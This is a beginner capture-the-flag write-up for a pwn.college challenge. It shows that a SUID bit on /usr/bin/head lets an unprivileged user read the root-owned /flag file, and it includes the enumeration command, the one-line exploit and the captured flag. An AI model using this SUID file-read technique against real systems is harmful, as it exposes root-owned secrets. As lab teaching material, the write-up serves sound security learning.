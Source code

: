 # Challenge Name: head
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/head`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/head
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/head
```

-The `s` in `-rws` indicates it's a SUID binary.
-`head` runs with **root privileges**.

## 🚀 Exploitation

The `head` command displays the first lines of a file. It’s the opposite of tail and is useful when you only care about the top of a file, such as headers, shebangs, or log start times.

```bash
head /flag
```
Output:
```
pwn.college{wFRl8uTsa8LWQMYKnV3ESUVFRyt.ddDNxwSM0IzMyEzW}
```



